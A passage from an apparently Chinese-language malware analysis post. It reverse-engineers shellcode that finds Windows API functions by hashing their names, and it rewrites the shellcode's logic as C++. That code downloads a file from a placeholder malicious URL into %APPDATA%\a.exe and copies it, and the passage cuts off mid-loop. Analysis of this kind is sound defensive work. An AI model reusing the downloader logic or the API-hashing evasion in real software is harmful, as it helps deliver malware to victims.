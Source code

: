 30、0c、1c、8，这些令人熟悉的数字（不记得了请看上篇最后），可以肯定的知道这里就是在获取某个函数地址，其实就是LoadLibrary了，这个肯定是各个Shellcode第一个要做的事情，要不然后续如何开展呢:)。

`405369`的CALL即会获取所需的函数地址。比较字符串可能会用掉较多的空间，所以这里它采用了给函数名取HASH的方式：

![enter image description here](http://drops.javaweb.org/uploads/images/35935306de345294995be53dc95868ad322b14a0.jpg)

即伪代码如下：

```
DWORD dwHash;
CHAR chFuncName;
while(chFuncName = szWindowsAPIName++)
{
dwHash += chFuncName;
_ROR(dwHash, 7);
}

```

在函数名这种大概一个模块就几百个的东西里面，这个HASH算法还是可以做到粗略的准确的，

![enter image description here](http://drops.javaweb.org/uploads/images/01398f4e116e7e2189461be19f4336986565bb0d.jpg)

此例中，在这附近就是存着的他们想要拿到的函数的HASH，获取到函数地址之后会覆盖掉对应的Hash，可见空间用的还是比较紧凑的：

![enter image description here](http://drops.javaweb.org/uploads/images/d822b16c29afa9ad28f1c8509e0a6860816eafbb.jpg)

之后就是简单的函数跟踪了，有兴趣的话可以自己跟踪一下，之后该Shellcode的动作我直接写成C++代码了，供参考，获取函数地址的细节代码我就跳过不写了，不保证可编译，不过如果要编译的话简单修改应该就可以了：

```
HMODULE hModule = LoadLibraryA(“User32”);
GetAddressFromModule(hModule, “GetModuleHandleA”); //自己获取函数地址的函数，没用系统的GetProcAddress，估计为了省字符串的长度，这里事实上还是用的Hash，为了方便阅读这么写了

if(GetModuleHandleA(“urlmon”) == NULL)
{
    hModule = LoadLibrary(“urlmon”);
}
GetAddressFromModule(hModule, “URLDownloadToFileA”);

hModule = LoadLibraryA(“shell32”);
GetAddressFromModule(hModule, “SHGetSpecialFolderPathA”);

CHAR buffer[MAX_PATH];
SHGetSpecialFolderPathA(0, buffer, 0x1a, 0);  //APPDATA

strcat(buffer + strlen(buffer), “\a.exe”);

do
{
    if (URLDownloadToFileA(0, MALICIOUS_URL, buffer, 0, 0) == S_OK)
    {
    //这个URL访问不了了，所以必然不是S_OK，执行完以后手动置EAX为0，然后随便拷贝个EXE去%appdata%\a.exe吧，要不然后面调试起来会比较蛋疼
        HANDLE hFile = CreateFileA(buffer, 0xc0000000, 2, 0, 3, 0, 0 );
             if(hFile != INVALID_HANDLE)
        {
            DWORD dwFileSizeLo = GetFileSize(hFile, 0);
            CHAR buffer_otherone[1024];
            buffer[strlen(buffer) - 5] = ‘b’; //实际上操作语句不是这样，不过最后结果一样，简单写好了
            HANDLE hFile2 = CreateFileA(buffer, 0x40000000, 0, 0, 2, 0, 0);
            if(hFile2 == INVALID_HANDLE) break;
            SetFilePointer(hFile, 0, NULL, FILE_BEGIN);
            DWORD dwPos = 0;
            while(dwPos < dwFileSizeLo)
            {
```